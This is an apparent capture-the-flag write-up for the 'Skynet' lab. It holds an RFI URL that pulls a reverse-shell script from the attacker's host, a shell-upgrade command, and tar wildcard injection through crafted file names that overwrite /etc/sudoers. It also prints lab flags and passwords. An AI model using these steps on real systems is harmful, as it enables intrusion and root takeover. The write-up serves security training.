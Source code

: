 # SKYNET

## BASIC INFO
```
export IP=10.10.126.157
```

## DEPLOY AND COMPROMISE THE VULNERABLE MACHINE
> - **What is Miles password for his emails?**
>> cyborg007haloterminator

With nmap we saw that smb port is open.\
Using enum4linux we know that there's a *anonymous* user on it.\
Log in with anonymous and blank password, then download log1.txt.\
Inside is a list of possible password for Miles.

> - **What is the hidden directory?**
>> /45kra24zxs28v3yd

When logged in to Miles email we saw there's a password reset email that is sent to him.\
Inside contains his new password.\
Log in to his account now
```
miledyson:)s{A&2Z=F^n_E.B`
```

> - **What is the vulnerability called when you can include a remote file for malicious purposes?**
>> Remote file inclusion

> - **What is the user flag?**
>> 7ce5c2109a40f958099283600a9ae807

EXploit the machine with RFI.\
Using the following link we can upload [rev_shell.php](rev_shell.php) to the machine and run it. Remember to set up a listener.
```
http://10.10.126.157/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.8.8.177:8000/rev_shell.php
```

Once we got a shell, we can spawn a stable shell with the following command.
```
python -c "import pty; pty.spawn('/bin/bash')"
```
Then we can just `cat /home/milesdyson/user.txt`

> - **What is the root flag?**
>> 3f0372db24753accc7179a282cd6a949

With linpeas and some manual enumeration reveals a backup jobs running as root and using tar. Some google on tar wildcard injection later and we come out with an exploit.
First we move to /var/www/html where the file is backup from.
Then running the following command.
```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL"> /etc/sudoers' > privesc.sh
echo "/var/www/html" > "--checkpoint-action=exec=sh privesc.sh"
echo "/var/www/html" > "--checkpoint=1"

```

This exploit abuse the wildcatd in "tar * " into using file names as command arguments.\
Wait for a moment then we run `sudo -l` to confirm that our exploit has been success.\
```
User www-data may run the following commands on skynet:
	(root) NOPASSWD: ALL
```

![badges](../../../badges/dianchia.png)